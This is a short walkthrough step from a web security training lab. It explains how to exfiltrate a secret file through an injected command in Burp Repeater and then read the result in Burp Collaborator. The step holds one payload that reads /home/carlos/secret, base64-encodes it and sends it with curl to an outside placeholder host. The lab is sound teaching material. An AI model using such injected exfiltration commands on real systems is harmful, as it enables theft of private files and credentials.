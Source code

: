 <span style="background:#fff88f">Exfiltrate the contents of the secret file</span>
1. In Burp Repeater, modify the payload in your malicious input parameter to a command that exfiltrates the contents of the file `/home/carlos/secret` to the public Burp Collaborator server. 
	1. The following is one approach for doing this:
```
"input":":! cat /home/carlos/secret | base64 | curl -d @- https://YOUR-COLLABORATOR-ID.oastify.com\n"
```
1. Send the request.
2. In the browser, go to the admin panel and trigger the maintenance jobs again.
3. Go to the **Collaborator** tab and poll for interactions.
4. Notice that you have received a new HTTP `POST` request with a Base64-encoded body.
5. Decode the contents of the body to reveal the secret.
6. In your browser, go to the lab banner and click **Submit solution**. 
7. Submit the decoded secret to solve the lab.


